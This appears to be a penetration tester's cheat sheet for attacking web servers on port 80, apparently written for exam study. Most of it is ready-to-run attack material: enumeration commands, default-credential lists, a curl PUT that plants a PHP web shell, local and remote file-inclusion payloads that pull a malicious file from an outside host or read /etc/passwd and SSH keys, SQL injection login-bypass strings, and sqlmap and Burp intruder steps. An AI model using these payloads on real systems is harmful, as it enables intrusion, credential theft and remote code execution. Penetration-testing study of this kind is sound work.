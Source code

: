 # Port 80 HTTP

## Enumeration

- Server:
  Scripting language:
  Apache Modules:
  Domain-name address:

- Web application
  Name:
  Version:

- Don't forget non-standard ports that look like http

- ### nmap Script Scan

	  nmap -sV -Pn -vv --script=http-vhosts,http-userdir-enum,http-apache-negotiation,http-backup-finder,http-config-backup,http-default-accounts,http-methods,http-method-tamper,http-passwd,http-robots.txt,http-devframework,http-enum,http-frontpage-login,http-git,http-iis-webdav-vuln,http-php-version,http-robots.txt,http-shellshock,http-vuln-cve2015-1635 -p 80 <target_address>

- ### gobuster

  - Directory Scan

        gobuster dir -u <target_url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o <output_file>

  - Deep Scan

	    gobuster dir -x html,php,txt,js,json,bak,bmp,jpg,jpeg,gif -u <target_url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o <output_file>
	
- ### nikto

      nikto -h http://<target_address>

  - Nikto with squid proxy

        nikto -h -useproxy http://<target_address>:4444

- ### Check for common files
  -  robots.txt
  -  .htaccess

- ### Check for directory traversal

      dotdotpwn.pl -m http -h http://<target_address> -M GET -o [windows|unix|generic]
	
- ### Default/Weak logins

  Google documentation for default passwords and test them:

  site:webapplication.com password

  admin admin
  admin password
  admin <empty_string>
  admin nameofservice
  root root
  root admin
  root password
  root nameofservice
  <username_> password
  <username_> admin
  <username_> username
  <username_> nameofservice
	
 - ### curl

   - Get Header
		
		 curl -I http://<target_address> 

   - Get everything

		 curl -i http://<target_address>

   - Get everything; follow redirect

         curl -i -L  http://<target_address>

   - Check for title and all links

		 curl -s -L http://<target_address> | grep "title\|href" | sed -e 's/^[[:space:]]*//'

   - Look at page with just text

		 curl -s -L http://<target_address> | html2text -width '99' | uniq

   - Check if it is possible to upload using put
		
		 curl -v -X OPTIONS http:///<target_address>
		 curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://<target_address>/test/shell.php
		
- ### Password brute force - last resort

	Crawl/build wordlist from entire site with cewl

## Bypassing File Upload Restrictions
https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/

## View PHP source

- php://filter/convert.base64-encode/resource=<php_file_path>
  Ex:
	
	  http://192.168.152.58/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/image.php

- php://filter/convert.base64-encode/resource=/var/www/html/db.php
  Ex: 
      
	  http://vulnerable-website/file.php?file=../../../../etc/passwd

## WebDAV

- davtest	

	Tests WebDAV enabled servers by uploading test executable files
		(Optional) Uploads files which allow for command execution or other actions directly on the target.
 
	davtest -url http://<target_address> 

- cadaver

	A command-line WebDAV client for Unix.
	

	
Google Authenicator

	Generate 2fa token with https://totp.danhersam.com/ using secret key ND4LKCSFMUQISO6CBZQATLDP
		Reference: https://github.com/itemir/apache_2fa

LFI/RFI


- Kadimus

	/root/Tools/Kadimus/kadimus -u http://<target_address>/example.php?page=


- Bypass execution

	http://<target_address>/index.php?page=php://filter/convert.base64-encode/resource=index
	base64 -d savefile.php

- Bypass extension

	http://<target_address>/page=http://192.168.1.101/maliciousfile.txt%00
	http://<target_address>/page=http://192.168.1.101/maliciousfile.txt?
	
- PHP
	https://cobalt.io/blog/a-pentesters-guide-to-file-inclusion

- If have LFI, check:

	/home/<user>/.ssh/id_rsa
	/home/<user>/.ssh/authorized_keys
	/home/<user>/.bash_history (and other shell histories)
	/home/<user>/.profile (and other shell profiles)

SQL-Injection

	https://xapax.gitbooks.io/security/content/sql-injections.html
	
	This is the most classic, standard first test:

	' or '1'='1

	Then you have:
	-'
	' '
	'&'
	'^'
	'*'
	' or ''-'
	' or '' '
	' or ''&'
	' or ''^'
	' or ''*'
	"-"
	" "
	"&"
	"^"
	"*"
	" or ""-"
	" or "" "
	" or ""&"
	" or ""^"
	" or ""*"
	or true--
	" or true--
	' or true--
	") or true--
	') or true--
	' or 'x'='x
	') or ('x')=('x
	')) or (('x'))=(('x
	" or "x"="x
	") or ("x")=("x
	")) or (("x"))=(("x

NOT FOR EXAM    NOT FOR EXAM    NOT FOR EXAM

- Post

	./sqlmap.py -r search-test.txt -p tfUPass

- Get
	
	sqlmap -u "http://<target_address>/index.php?id=1" --dbms=mysql

- Crawl

	sqlmap -u http://<target_address> --dbms=mysql --crawl=3

NOT FOR EXAM    NOT FOR EXAM    NOT FOR EXAM


Sql-login-bypass

	- Open Burp-suite
	- Make and intercept request
	- Send to intruder
	- Cluster attack
	- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
	- Attack
	- Check for response length variation